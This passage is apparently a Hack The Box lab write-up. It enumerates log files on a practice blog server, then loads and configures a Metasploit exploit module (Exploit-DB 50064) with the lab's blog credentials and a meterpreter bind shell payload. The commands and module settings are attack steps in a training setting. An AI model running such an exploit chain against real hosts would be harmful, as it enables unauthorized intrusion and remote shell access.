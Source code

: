 ### checking the data/logs folder

```
┌─[htb-student@skills-foothold]─[~]
└──╼ $curl http://blog.inlanefreight.local/data/logs/ajax_access.log
2021-08-24 15:05:00	10.10.14.12	Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/92.0.4515.159 Safari/537.36	handshake
┌─[htb-student@skills-foothold]─[~]
└──╼ $curl http://blog.inlanefreight.local/data/logs/ajax_errors.log
2021-08-24 15:05:00	10.10.14.12	Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/92.0.4515.159 Safari/537.36	could not find driver
┌─[htb-student@skills-foothold]─[~]
└──╼ $curl http://blog.inlanefreight.local/data/logs/visitors.log
2021-08-24 15:05:00	10.10.14.12	Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/92.0.4515.159 Safari/537.36
```

### Fortunate information

The Foothold machine don't have any browser in sight and no internet to install one, but I remembered that there is a embedded browser within Burp.


###  Vulnerability Disclosed

In one of the blog posts a vulnerability is mentioned for the blog "https://www.exploit-db.com/exploits/50064", in the link is mentioned that script requires authentication to work and also informs us that  it is a metasploit module, after checking the foothold machine I found the file was already there

```
┌─[htb-student@skills-foothold]─[~]
└──╼ $locate 50064
locate: warning: database ‘/var/cache/locate/locatedb’ is more than 8 days old (actual age is 934.2 days)
/home/administrator/.msf4/modules/blog/50064.rb
/home/administrator/Downloads/50064.rb
/usr/share/exploitdb/exploits/php/webapps/50064.rb
/usr/share/metasploit-framework/modules/exploits/50064.rb

```

But it was not imported into metasploit, so it requires to execute "updatedb" inside metasploit, in order to import the script

```
msf6 > use exploit/50064
msf6 exploit(50064) > options

Module options (exploit/50064):

   Name       Current Setting           Required  Description
   ----       ---------------           --------  -----------
   PASSWORD   admin123!@#               yes       Blog password
   Proxies                              no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS     172.16.1.12               yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT      80                        yes       The target port (TCP)
   SSL        false                     no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  /                         yes       The URI of the arkei gate
   USERNAME   admin                     yes       Blog username
   VHOST      blog.inlanefreight.local  no        HTTP server virtual host


Payload options (php/meterpreter/bind_tcp):
```